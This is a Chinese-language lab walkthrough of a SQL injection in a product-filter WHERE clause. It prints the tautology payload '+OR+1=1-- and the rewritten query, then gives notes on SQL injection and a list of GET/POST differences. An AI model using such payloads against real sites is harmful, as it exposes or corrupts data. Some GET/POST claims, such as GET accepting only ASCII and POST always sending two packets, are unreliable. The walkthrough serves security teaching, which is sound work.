

# 题意

该题的where查询字句中存在sql注入漏洞，攻击者可以借此获取隐藏数据。

能在页面中展示所有的产品信息即为解决。


# 解题过程
点击页面中的属性筛选，通过burpsuite可以发现url发生了改变，此时应用程序调用了如下sql语句：
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
。这就可以作为注入点。这句sql从products表中筛选出了所有category为‘Gifts’并且release为1的数据。可用的payload为：

```
'+OR+1=1--
```

输入该payload之后的sql语句为：
```
SELECT * FROM products WHERE category = '' OR 1=1 --' AND release = 1
```
此时1=1恒为true，--将后面的语句全部注释，取消了对release的限制，因此能够返回全部的数据。

注意：使用OR 1=1时，如果sql是DELETE或者UPDATE语句，则有可能损失部分数据。
# 知识点

## sql注入

sql注入是一种攻击者能够干预应用程序访问数据库的sql语句的web安全漏洞。通常，sql注入能让攻击者接触到本不应该接触的数据，甚至对这些数据进行修改，导致应用程序的内容或者行为出现异常。


## GET和POST

1.GET在浏览器回退时是无害的，而POST会再次提交请求。


2.GET产生的URL地址可以被Bookmark，而POST不可以。


3.GET请求会被浏览器主动cache，而POST不会，除非手动设置。


4.GET请求只能进行url编码，而POST支持多种编码方式。


5.GET请求参数会被完整保留在浏览器历史记录里，而POST中的参数不会被保留。


6.GET请求在URL中传送的参数是有长度限制的，而POST么有。


7.对参数的数据类型，GET只接受ASCII字符，而POST没有限制。


8.GET比POST更不安全，因为参数直接暴露在URL上，所以不能用来传递敏感信息。


9.GET参数通过URL传递，POST放在Request body中。


从本质上来说，GET和POST都是TCP连接，只是http对两者的参的传送渠道做了限制。GET的参数放在url中，POST的参数放在request body中。并且，GET在请求时只发送一个TCP数据包，而POST会发送两个（在某些浏览器里也只发送一个）。先发送header，等服务器相应100后再发送data。  